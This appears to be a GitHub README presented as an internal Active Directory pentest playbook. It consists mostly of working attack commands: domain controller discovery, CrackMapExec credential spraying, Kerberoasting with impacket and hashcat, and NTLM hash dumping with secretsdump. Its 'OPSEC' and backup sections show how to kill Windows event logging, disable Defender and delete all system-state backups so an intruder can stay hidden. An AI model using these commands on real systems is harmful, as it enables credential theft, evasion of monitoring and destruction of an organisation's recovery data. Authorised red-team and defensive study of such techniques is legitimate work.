 # The Official phasetw0 Corporate Internal Active Directory Pentest Playbook and Knuckles
###### Written by hypervis0r

I'll be adding more to this as I own more domains lol

## 🔎 Initial Access
___

#### Identify Target Machines
Identify domain controllers on the network using DNS
```bash
# Linux
dig _ldap._tcp.dc._msdcs.EXAMPLE.COM -t any
dig _ldap._tcp.dc._msdcs.EXAMPLE.COM -t srv

# Windows
nslookup -type=any _ldap._tcp.dc._msdcs.EXAMPLE.COM
nslookup -type=srv _ldap._tcp.dc._msdcs.EXAMPLE.COM
```

Find potential Windows machines using `nmap` along with the network subnet or the given scope of the pentest.
```bash
nmap -p139,445,88,135,389,464 <subnet here> -oG - | awk '/Up$/{print $2}' > windows_boxes.txt
```

#### Low hanging Fruit
Check Windows boxes for common CVEs (EternalBlue, other SMB vulns I can't think of, etc.)
```bash
# nmap scan
nmap -sC -sV -oN box_scan.txt -iL windows_boxes.txt

# crackmapexec scan
cme smb ~/windows_boxes.txt
```

#### Identify critical users
Nine times out of ten, network administrators of a company are admins on the internal domain. Look for staff directories for the company to find potential users to phish/brute-force.
```bash
# Google dork to find staff directory of company
site:"evil.corp" staff directory
```

## 🚩 Lateral movement (after found creds)
___


```
/*
	TODO:
	More AD Flaws (Golden Ticket)
	LSSAS Dumping
*/
```

Repeat these steps for every new better set of credentials you get, all the way until you get Local Admin or Domain Admin.

#### Check common Active Directory flaws
##### Kerberoasting/AS-REPRoasting
Check for users with associated SPNs using impacket's `GetUserSPNs.py`.
```bash
python3 GetUserSPNs.py evil.corp/user:pass -dc-ip dc1.evil.corp -outputfile hashes.tgt
```
After gaining access to the TGT hashes, crack the user password using `hashcat` along with `rockyou.txt` and `OneRuleToRuleThemAll.rule`. This can take a while to crack, even on a powerful home PC.  Unless you have a dedicated cracking machine, I recommend spinning up an Azure instance (specifically `Standard NC6s_v3`).
```bash
hashcat -m 13100 -w 4 -a 0 hashes.tgt rockyou.txt --rule OneRuleToRuleThemAll.rule
```
If no hashes could be cracked, it is unlikely the password is brute-forcable, and you should move on.

#### Pop shell to investigate
Find machines you can potentially log into using your credentials. You can accomplish this using CrackMapExec along with the `windows_boxes.txt` list to scan every windows box, along with its SMB shares, with your creds.
```bash
# Check for shells
cme smb ~/windows_boxes.txt -u 'user' -p 'pass'

# Check for open SMB shares
cme smb ~/windows_boxes.txt -u 'user' -p 'pass' --shares
```

After you gain a shell (or find an interesting open share), look around for saved password files, ways to escalate to local admin, "goodies", etc.

## 🔥 Next steps after Domain Admin
___

#### OPSEC (***These Steps are important!!!***)
Kill the Windows Event Logging service using [phant0m](https://github.com/hlldz/Phant0m) or some other method.

Disable the Windows Defender service, and look for any other EDRs to possibly disable before continuing.
```bash
# Stop the Windows Defender service, then disable it
sc stop "WinDefend"
sc config "WinDefend" start= disabled
```

#### Persistence
Run impacket's `secretsdump.py` to dump NTLM hashes from SAM, NTDS.DIT, and other hives.
```bash
python3 secretsdump.py evil.corp/Administrator:password@dc1.evil.corp 
```

#### Check for backups
You wouldn't want to get discovered and risk a full wipe + backup, would you? If you are looking to make yourself at home for a long time, you may want to look for system backups and promptly destroy them.
```bash
# Delete all system state backups
wbadmin delete systemstatebackup -keepVersions:0
```

#### Enterprise Admin?
The domain you have just owned may have been a child domain of a larger parent domain. Exploit trust boundaries to gain Enterprise Admin, and own the whole tri-state area!

```bash
# Get list of domain trusts to find new DCs to own
nltest /domain_trusts
```

## 📕 References
___

https://social.technet.microsoft.com/wiki/contents/articles/1772.windows-ports-protocols-and-system-services.aspx

https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

https://github.com/SecureAuthCorp/impacket

https://github.com/byt3bl33d3r/CrackMapExec

https://security.stackexchange.com/questions/76459/how-to-locate-a-domain-controller-on-a-windows-network-when-not-a-member

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain